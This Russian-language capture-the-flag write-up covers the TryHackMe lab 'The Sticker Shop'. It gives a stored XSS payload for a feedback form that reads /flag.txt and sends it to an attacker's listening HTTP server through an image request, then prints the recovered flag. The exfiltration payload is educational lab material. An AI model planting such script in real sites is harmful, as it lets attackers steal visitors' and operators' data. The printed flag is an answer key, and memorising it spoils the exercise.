


# Write-up: The Sticker Shop

Переходим на `http://MACHINE_IP:8080/`.

На сайте можно оставить фидбэк. Первое, что приходит в голову, — **Stored XSS**:



Из задания известно, что флаг лежит по адресу `http://10.144.177.24:8080/flag.txt`. Пишем скрипт, который читает флаг и отправляет его к нам:

```html
<script>
fetch('/flag.txt')
  .then(r => r.text())
  .then(d => new Image().src = 'http://192.168.192.16:8000/?f=' + encodeURIComponent(d))
  .catch(e => new Image().src = 'http://192.168.192.16:8000/?err=' + e)
</script>
```

Запускаем простой HTTP-сервер, чтобы принимать запросы:

```bash
python3 -m http.server 8000
```



Получаем флаг в query-параметре входящего запроса:

```text
THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

## Итоговая схема (Kill Chain)

`Форма фидбэка` → `Stored XSS` → `fetch('/flag.txt')` → `экфильтрация на наш HTTP-сервер` → `флаг`